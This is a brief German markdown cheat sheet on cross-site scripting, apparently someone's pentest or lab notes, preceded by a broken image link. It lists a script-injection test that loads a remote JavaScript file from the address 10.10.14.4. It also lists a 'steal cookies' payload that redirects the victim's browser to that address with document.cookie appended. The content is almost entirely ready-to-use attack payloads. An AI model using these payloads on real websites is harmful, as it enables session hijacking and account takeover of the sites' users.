 # XSS
## Prüfen ob eine Attacke möglich ist
```html
<script src="http://10.10.14.4/fuchs.js"></script>
```

## Mögliche Payloads

### Cookies klauen
```js
document.location = 'http://10.10.14.4/' + document.cookie;
```



